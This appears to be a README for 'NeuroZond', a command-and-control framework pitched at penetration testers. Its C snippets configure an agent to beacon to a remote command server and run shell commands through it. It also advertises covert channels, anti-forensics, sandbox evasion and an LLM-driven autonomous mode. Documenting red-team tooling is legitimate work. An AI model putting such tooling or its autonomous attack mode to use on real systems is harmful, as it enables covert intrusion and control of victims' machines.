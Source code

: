 # NeuroZond

## Advanced Autonomous C2 Framework

NeuroZond is a sophisticated Command and Control (C2) framework designed for professional security researchers and penetration testers. It provides a robust infrastructure for secure covert communication, autonomous decision-making, and advanced threat modeling.

## Key Features

- **Advanced Covert Communication** - Resistant to detection through DNS, HTTPS, and ICMP channels
- **Military-grade Cryptographic Protection** - Utilizing AES-256 with key rotation
- **Cross-platform Compatibility** - Linux, macOS, Windows support
- **Autonomous Operation** - Integration with LLM for local decision-making
- **Modular Architecture** - Easy extension and customization

## Architecture

The framework consists of several core components:

- **Covert Channel Module** - Implements various covert communication methods
- **Cryptographic Module** - Handles encryption, decryption, and key management
- **Command Execution Module** - Executes received commands and returns results
- **Integration Module** - Facilitates interaction with external systems and tools
- **CODEX Module** - Provides LLM-based autonomous decision-making capabilities

## Installation

```
git clone https://github.com/[repository]/neurozond.git
cd neurozond
make
```

### Dependencies

- libcurl
- jansson
- openssl
- [Additional dependencies based on enabled modules]

## Usage

### Initializing the Agent

```c
neurozond_options_t options = {
    .channel_type = COVERT_CHANNEL_TYPE_HTTPS,
    .server = "https://command.domain.com",
    .key = "predefined_key_or_path_to_key_file",
    .interval = 60,
    .jitter = 0.3
};

neurozond_t *zond = neurozond_init(&options);
if (zond == NULL) {
    fprintf(stderr, "Failed to initialize NeuroZond\n");
    return 1;
}
```

### Command Execution

```c
neurozond_command_t command = {
    .type = NEUROZOND_COMMAND_SHELL,
    .data = "systeminfo",
    .timeout = 30
};

neurozond_result_t *result = neurozond_execute_command(zond, &command);
if (result) {
    printf("Command executed: %s\n", result->data);
    neurozond_result_destroy(result);
}
```

### Autonomous Mode

```c
neurozond_codex_options_t codex_options = {
    .model = "local_llm_model",
    .temperature = 0.7,
    .max_tokens = 2048
};

int status = neurozond_enable_autonomous_mode(zond, &codex_options);
if (status == NEUROZOND_STATUS_SUCCESS) {
    printf("Autonomous mode enabled\n");
}
```

## Security Measures

NeuroZond implements several security features to minimize detection and maintain operational security:

- Traffic obfuscation through timing randomization (jitter)
- Encrypted communication channels
- Anti-forensic capabilities
- Memory protection mechanisms
- Active defense against sandbox analysis

## Legal Disclaimer

This software is provided for authorized security testing and research purposes only. Users are responsible for complying with applicable laws and obtaining proper authorization before deployment.

## License

Proprietary - All rights reserved.

Copyright (c) 2025 [Organization] 